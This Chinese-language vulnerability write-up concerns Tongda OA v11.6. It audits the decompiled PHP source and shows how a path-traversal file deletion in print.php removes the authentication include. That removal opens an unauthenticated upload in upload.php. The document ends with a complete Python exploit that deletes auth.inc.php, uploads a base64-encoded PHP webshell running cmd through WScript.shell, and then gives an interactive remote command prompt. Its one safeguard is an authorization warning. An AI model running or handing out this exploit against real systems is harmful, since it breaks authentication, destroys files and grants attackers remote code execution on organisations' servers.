






# 通达OA-v11.6-任意文件删除&RCE

## 漏洞描述

通过任意文件漏洞删除上传点包含的身份验证文件，从而造成未授权访问实现任意文件上传

## 漏洞影响

> [!NOTE]
>
> 通达OA v11.6

## 环境搭建

[通达OA v11.6下载链接](https://cdndown.tongda2000.com/oa/2019/TDOA11.6.exe)

下载完毕点击安装即可

## 漏洞复现

使用解密工具 SeayDzend(zend解密工具) 对通达OA的加密代码进行解密

> [!NOTE]
>
> 解密工具已经放在目录下的POC目录中

解密完成后查看 **webroot\general\data_center\utils\upload.php** 文件

```php
<?php

include_once "inc/auth.inc.php";
include_once "./utils.func.php";
$HTML_PAGE_TITLE = _("上传文件");
include_once "inc/header.inc.php";
$error = "";
$msg = "";

if ($action == "upload") {
	if ($filetype == "xls") {
		$uploaddir = MYOA_ATTACH_PATH . "/data_center/templates/";

		if (!is_dir(MYOA_ATTACH_PATH . "/data_center/templates")) {
			if (!is_dir(MYOA_ATTACH_PATH . "/data_center")) {
				mkdir(MYOA_ATTACH_PATH . "/data_center");
			}

			mkdir(MYOA_ATTACH_PATH . "/data_center/templates");
		}

		if (move_uploaded_file($_FILES["FILE1"]["tmp_name"], $uploaddir . $_FILES["FILE1"]["name"])) {
		}
	}
	else if ($filetype == "img") {
		$uploaddir = MYOA_ATTACH_PATH . "/data_center/images/";

		if (!is_dir(MYOA_ATTACH_PATH . "/data_center/images")) {
			if (!is_dir(MYOA_ATTACH_PATH . "/data_center")) {
				mkdir(MYOA_ATTACH_PATH . "/data_center");
			}

			mkdir(MYOA_ATTACH_PATH . "/data_center/images");
		}

		$s_n = $_FILES["FILE1"]["name"];

		if ($s_n[0] != "{") {
			$p = strrpos($s_n, ".");
			$s_n = CreateId() . substr($s_n, $p);
		}

		if (move_uploaded_file($_FILES["FILE1"]["tmp_name"], $uploaddir . $s_n)) {
		}
	}
	else {
		$uploaddir = MYOA_ATTACH_PATH . "/data_center/attachment/";

		if (!is_dir(MYOA_ATTACH_PATH . "/data_center/attachment")) {
			if (!is_dir(MYOA_ATTACH_PATH . "/data_center")) {
				mkdir(MYOA_ATTACH_PATH . "/data_center");
			}

			mkdir(MYOA_ATTACH_PATH . "/data_center/attachment");
		}

		if (isset($from_rep)) {
			if (($from_rep != "") && ($from_rep[0] == "{")) {
				$repkid = GetRepKIDBySendId($from_rep);

				if ($repkid != $to_rep) {
					if (file_exists($uploaddir . "/" . $repkid . "_" . $filename)) {
						copy($uploaddir . "/" . $repkid . "_" . $filename, $uploaddir . "/" . $to_rep . "_" . $filename);
					}
				}
			}
			else {
				$arr = explode(",", $from_rep);

				for ($i = 0; $i < count($arr); $i++) {
					$p = strpos($arr[$i], ".");
					$repno = substr($arr[$i], 0, $p);
					$repkid = GetRepKIDByNo($repno);

					if ($repkid != $to_rep) {
						if (file_exists($uploaddir . "/" . $repkid . "_" . $filename)) {
							copy($uploaddir . "/" . $repkid . "_" . $filename, $uploaddir . "/" . $to_rep . "_" . $filename);
							break;
						}
					}
				}
			}
		}
		else {
			$s_n = $_FILES["FILE1"]["name"];

			if ($s_n[0] != "{") {
				$s_n = $repkid . "_" . $s_n;
			}

			if (move_uploaded_file($_FILES["FILE1"]["tmp_name"], $uploaddir . $s_n)) {
			}
		}
	}

	@unlink($_FILES["FILE1"]);
}
else if ($action == "unupload") {
	if ($filetype == "xls") {
		$uploaddir = MYOA_ATTACH_PATH . "data_center/attachment/" . trim($filename) . ".xls";

		if (is_file($uploaddir)) {
			unlink($uploaddir);
		}
	}
	else if ($filetype == "img") {
		$uploaddir = MYOA_ATTACH_PATH . "data_center/images/" . trim($filename);

		if (is_file($uploaddir)) {
			unlink($uploaddir);
		}
	}
	else if ($filetype == "attach") {
		$uploaddir = MYOA_ATTACH_PATH . "data_center/attachment/" . trim($filename);

		if (is_file($uploaddir)) {
			unlink($uploaddir);
		}
	}
}

echo "{";
echo "new_name:'$s_n',\n";
echo "error: '" . $error . "',\n";
echo "msg: '" . $msg . "'\n";
echo "}";
echo "<body>\r\n</body>\r\n</html>";

?>

```

在第一行包含了文件 **auth.inc.php**

```php
include_once "inc/auth.inc.php";
```



可以看到这个文件用于检验是否登录，未登录的情况无法利用这个漏洞

查看 **\webroot\module\appbuilder\assets\print.php**文件



```php
<?php

$s_tmp = __DIR__ . "/../../../../logs/appbuilder/logs";
$s_tmp .= "/" . $_GET["guid"];

if (file_exists($s_tmp)) {
	$arr_data = unserialize(file_get_contents($s_tmp));
	unlink($s_tmp);
	$s_user = $arr_data["user"];
}
else {
	echo "未知参数";
	exit();
}
```

这里可以看到 页面获取 guid参数的值
使用**file_exists函数**判断文件是否存在 并未进行校验 就执行unlink删除文件 

可以本地在 **\webroot\inc** 目录创建 1.txt 文件

然后访问 **http://xxx.xxx.xxx.xxx/module/appbuilder/assets/print.php?guid=../../../webroot/inc/1.txt** 就会删除这个 1.txt 文件，也代表可以删除 **auth.inc.php** 登录检验文件

回到 upload.php 文件进行代码审计



判断变量 **$action** 是否为 upload，再判断文件类型，如果不为 xls 和 img 则进入else分支

```php
else {
		$uploaddir = MYOA_ATTACH_PATH . "/data_center/attachment/";

		if (!is_dir(MYOA_ATTACH_PATH . "/data_center/attachment")) {
			if (!is_dir(MYOA_ATTACH_PATH . "/data_center")) {
				mkdir(MYOA_ATTACH_PATH . "/data_center");
			}

			mkdir(MYOA_ATTACH_PATH . "/data_center/attachment");
		}

		if (isset($from_rep)) {
			if (($from_rep != "") && ($from_rep[0] == "{")) {
				$repkid = GetRepKIDBySendId($from_rep);

				if ($repkid != $to_rep) {
					if (file_exists($uploaddir . "/" . $repkid . "_" . $filename)) {
						copy($uploaddir . "/" . $repkid . "_" . $filename, $uploaddir . "/" . $to_rep . "_" . $filename);
					}
				}
			}
			else {
				$arr = explode(",", $from_rep);

				for ($i = 0; $i < count($arr); $i++) {
					$p = strpos($arr[$i], ".");
					$repno = substr($arr[$i], 0, $p);
					$repkid = GetRepKIDByNo($repno);

					if ($repkid != $to_rep) {
						if (file_exists($uploaddir . "/" . $repkid . "_" . $filename)) {
							copy($uploaddir . "/" . $repkid . "_" . $filename, $uploaddir . "/" . $to_rep . "_" . $filename);
							break;
						}
					}
				}
			}
		}
		else {
			$s_n = $_FILES["FILE1"]["name"];

			if ($s_n[0] != "{") {
				$s_n = $repkid . "_" . $s_n;
			}

			if (move_uploaded_file($_FILES["FILE1"]["tmp_name"], $uploaddir . $s_n)) {
			}
		}
	}

	@unlink($_FILES["FILE1"]);
}
```

在这段代码中，如果不存在 **$from_rep** 变量则会跳到如下代码

```php
else {
			$s_n = $_FILES["FILE1"]["name"];

			if ($s_n[0] != "{") {
				$s_n = $repkid . "_" . $s_n;
			}

			if (move_uploaded_file($_FILES["FILE1"]["tmp_name"], $uploaddir . $s_n)) {
			}
		}
```

这里直接将 **$repkid** 变量进行拼接,也就是说可以通过目录穿越来上传恶意文件到指定目录

> [!NOTE]
>
> 这里需要利用file_exists函数的漏洞构造/.<>./.<>./.<>./ 逃逸出来

使用POC来利用漏洞



> [!NOTE]
>
> 注意在删除验证身份的文件后，会造成后台页面出现如下图，使用前备份文件



## 漏洞利用POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech


import requests
import re
import base64
import sys


def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: 通达OA-v11.6-任意文件删除&RCE                                \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                           \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+  \033[36mCmd    >>> whoami                                                 \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    check_url = target_url + "/module/appbuilder/assets/print.php"
    try:
        check_url_response  = requests.get(url = check_url)
        if check_url_response.status_code == 200:
            print("\033[32m[o] 存在 /module/appbuilder/assets/print.php 可能含有通达OA-v11.6-任意文件删除&RCE漏洞\033[0m")
            input("\033[32m[o] 此漏洞会对真实环境造成影响，请在授权的情况下利用此漏洞，按下任意键继续..... \033[0m")
        else:
            print("\033[31m[x] 不存在 /module/appbuilder/assets/print.php 漏洞利用失败 \033[0m")
            sys.exit(0)
    except Exception as e:
            print("\033[31m[x] 请求失败，{} \033[0m".format(e))
            sys.exit(0)

def POC_2(target_url):
    unlink_url = target_url + "/module/appbuilder/assets/print.php?guid=../../../webroot/inc/auth.inc.php"
    try:
        unlink_response = requests.get(url = unlink_url)
        if unlink_response.status_code == 200:
            print("\033[32m[o] 成功删除校验文件 auth.inc.php \033[0m")
        else:
            print("\033[31m[x] 删除校验文件 auth.inc.php 失败 \033[0m")
            sys.exit(0)
    except Exception as e:
            print("\033[31m[x] 请求失败，{} \033[0m".format(e))
            sys.exit(0)

def POC_3(target_url, payload_php):
    """
      (绕过的webshell)
      <?php
      $command=$_GET['test'];
      $wsh = new COM('WScript.shell');
      $exec = $wsh->exec("cmd /c ".$command);
      $stdout = $exec->StdOut();
      $stroutput = $stdout->ReadAll();
      echo $stroutput;
      ?>
    """
    vuln_url = target_url + "/general/data_center/utils/upload.php?action=upload&filetype=test&repkid=/.<>./.<>./.<>./"
    files = {'FILE1': ('test.php', payload_php)}
    try:
        vuln_response = requests.post(url = vuln_url,files=files)
        if vuln_response.status_code == 200:
            print("\033[32m[o] 成功写入webshell文件: _test.php \033[0m")
            print("\033[32m[o] webshell地址为: {}/_test.php \033[0m".format(target_url))
        else:
            print("\033[31m[x] 写入webshell文件失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败，{} \033[0m".format(e))
        sys.exit(0)

def POC_4(target_url, cmd):
    cmd_url = target_url + "/_test.php?test={}".format(cmd)
    try:
        cmd_response = requests.get(url = cmd_url)
        if cmd_response.status_code == 200:
            print("\033[32m[o] 正在执行命令: {} \033[0m".format(cmd_url))
            print("\033[32m[o] 响应为: \n{} \033[0m".format(cmd_response.text))
        else:
            print("\033[31m[x] 命令执行失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败，{} \033[0m".format(e))
        sys.exit(0)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)
    POC_2(target_url)
    payload_php = base64.b64decode("PD9waHAKICAgICRjb21tYW5kPSRfR0VUWyd0ZXN0J107CiAgICAkd3NoID0gbmV3IENPTSgnV1NjcmlwdC5zaGVsbCcpOwogICAgJGV4ZWMgPSAkd3NoLT5leGVjKCJjbWQgL2MgIi4kY29tbWFuZCk7CiAgICAkc3Rkb3V0ID0gJGV4ZWMtPlN0ZE91dCgpOwogICAgJHN0cm91dHB1dCA9ICRzdGRvdXQtPlJlYWRBbGwoKTsKICAgIGVjaG8gJHN0cm91dHB1dDsKPz4=").decode("utf-8")
    POC_3(target_url, payload_php)

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            sys.exit(0)
        else:
            POC_4(target_url, cmd)


```

